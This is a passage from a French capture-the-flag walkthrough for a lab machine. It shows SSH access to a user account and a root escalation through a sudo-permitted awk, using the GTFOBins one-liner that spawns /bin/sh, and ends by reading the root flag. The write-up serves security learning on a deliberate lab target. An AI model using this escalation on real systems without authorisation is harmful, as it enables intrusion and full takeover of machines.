 ```bash
$ exit
logout
Connection to 192.168.1.28 closed.
```

Pour se connecter avec le nouveau compte.

```bash
$ ssh -i pem hangtuah@$IP
$ whoami
hangtuah
```

## Escalation

Regardons les privilèges de cet utilisateur.

```bash
$ sudo -l
User hangtuah may run the following commands on legacyhangtuah:
    (root) NOPASSWD: /usr/bin/awk
```

Sur [GTOBins](https://gtfobins.github.io/gtfobins/awk/#sudo), on trouve la commande `awk` pour devenir root.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
$ whoami
root
```

Désormais utilisateur "root", on trouve facilement le flag root.

```bash
$ cat /root/root.txt
8840d1ea10bfc55b0e2dd2354524d779
```

## Sources

- Le protocole WebDAV [https://fr.wikipedia.org/wiki/WebDAV](https://fr.wikipedia.org/wiki/WebDAV) ;
- Comment exploiter WebDAV [https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718).
